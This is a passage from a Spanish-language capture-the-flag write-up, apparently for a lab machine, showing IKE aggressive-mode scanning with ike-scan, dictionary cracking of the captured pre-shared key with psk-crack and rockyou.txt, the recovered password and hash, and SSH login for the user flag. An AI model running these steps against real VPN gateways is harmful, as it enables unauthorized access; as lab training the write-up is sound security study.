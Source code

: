 El escaneo en Modo Agresivo es exitoso y devuelve la respuesta del servidor, incluyendo el hash de autenticación.
````
IKE PSK parameters (g_x,g_y,ckey,rkey,h_isakp,bidi,bidi_bin,b,hash_r):
{hash_data}
````
El hash de autenticación, que incluye el secreto precompartido del grupo (secret-password) y la identidad del usuario, es el siguiente (eliminando los parámetros y dejando solo la data binaria). Este hash lo guardo para descifrarlo luego.

## Paso 5: Captura y Crackeo del PSK

Este paso se centró en la explotación de la fase IKE (Internet Key Exchange) para obtener y luego descifrar la clave precompartida (PSK) utilizada en la VPN.

### 1. Captura de Parámetros PSK con `ike-scan`

<img width="1707" height="141" alt="hago un ike scan para obtener paramtros psk" src="https://github.com/user-attachments/assets/31e79713-9df3-412e-b28b-e17fc2c39d52" />

Se utilizó `ike-scan` en **Modo Agresivo** (`-A`) para forzar un *handshake* y capturar los parámetros de la PSK, guardándolos en un archivo llamado `presharedkey.txt`.

| Comando Ejecutado | `sudo ike-scan -A -id=ike@expressway.htb --presharedkey.txt 10.10.11.87` |
| :--- | :--- |
| **Resultado** | La herramienta retornó un **Aggressive Mode Handshake**. |

### 2. Crackeo de la PSK con `psk-crack`

<img width="881" height="147" alt="ejecuto psk crack" src="https://github.com/user-attachments/assets/42337b91-4bcc-48a6-b85b-f9809696247b" />

El archivo `presharedkey.txt` capturado fue procesado con la herramienta `psk-crack`, utilizando un ataque de diccionario (`-d`) con la lista `rockyou.txt`.

| Comando Ejecutado | `sudo psk-crack -d /home/quiqu3h4ck@kali/rockyou.txt presharedkey.txt` |
| :--- | :--- |
| **Clave (PSK) Encontrada** | `freakingrockstarontheroad` |
| **Hash SHA1 Correspondiente** | `e5e50b8d2e145cbb842190db41adda690c5cae55` |

## Paso 6: Conexión SSH y Obtención de la Bandera del Usuario

Una vez obtenida la clave precompartida (PSK) en el paso anterior, se procedió a intentar la conexión a través del servicio **SSH** (puerto 22 TCP, abierto según Nmap), utilizando el nombre de usuario y la clave descubiertos.

### 1. Conexión SSH

Se utilizó el usuario **`ike`** (identificado en la configuración del *router* y en los *handshakes* IKE) y la clave crackeada (`freakingrockstarontheroad`) como contraseña.

<img width="936" height="292" alt="me conetco por ssh y obtengo flag user" src="https://github.com/user-attachments/assets/926cffe5-59bc-4e85-856c-549a60ac4dcf" />
